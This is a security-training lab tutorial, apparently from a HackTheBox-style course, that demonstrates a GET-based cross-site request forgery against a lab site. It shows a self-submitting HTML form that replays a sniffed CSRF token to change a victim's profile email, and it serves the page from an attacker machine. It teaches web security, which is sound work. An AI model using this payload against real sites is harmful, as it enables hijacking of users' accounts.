# Cross-Site Request Forgery (GET-based)

Similar to how we can extract session cookies from applications that do not utilize SSL encryption, we can do the same regarding CSRF tokens included in unencrypted requests.

Let us see an example.

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon, then use the provided Pwnbox or a local VM with the supplied VPN key to be able to reach the target application and follow along. Then, configure the specified vhost (`csrf.htb.net`) to access the application.

Navigate to `http://csrf.htb.net` and log in to the application using the credentials below:

* Email: heavycat106
* Password: rocknrol

This is an account that we created to look at the application's functionality.

Now, browse Julie Rogers' profile and click _Save_. You should see the below.

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Activate burp suite's proxy (_Intercept On_) and configure your browser to go through it. Now click _Save_ again.

You should see the below.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The CSRF token is included in the GET request.

Let us simulate an attacker on the local network that sniffed the abovementioned request and wants to deface Julie Rogers' profile through a CSRF attack. Of course, they could have just performed a session hijacking attack using the sniffed session cookie.

First, create and serve the below HTML page. Save it as `notmalicious_get.html`

```html
<html>
  <body>
    <form id="submitMe" action="http://csrf.htb.net/app/save/julie.rogers@example.com" method="GET">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="hidden" name="action" value="save" />
      <input type="hidden" name="csrf" value="30e7912d04c957022a6d3072be8ef67e52eda8f2" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```

Notice that the CSRF token's value above is the same as the CSRF token's value in the captured/"sniffed" request.

If you are wondering how we came up with the above form based on the intercepted GET request, please study the following resource [Sending form data](https://developer.mozilla.org/en-US/docs/Learn/Forms/Sending_and_retrieving_form_data)

You can serve the page above from your attacking machine as follows.

```shell-session
$ python -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
```

While still logged in as Julie Rogers, open a new tab and visit the page you are serving from your attacking machine `http://<VPN/TUN Adapter IP>:1337/notmalicious_get.html`. You will notice that Julie Rogers' profile details will change to the ones we specified in the HTML page you are serving.

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

In the next section, we will attack an application submitting the CSRF token via POST without having to reside in the local network.
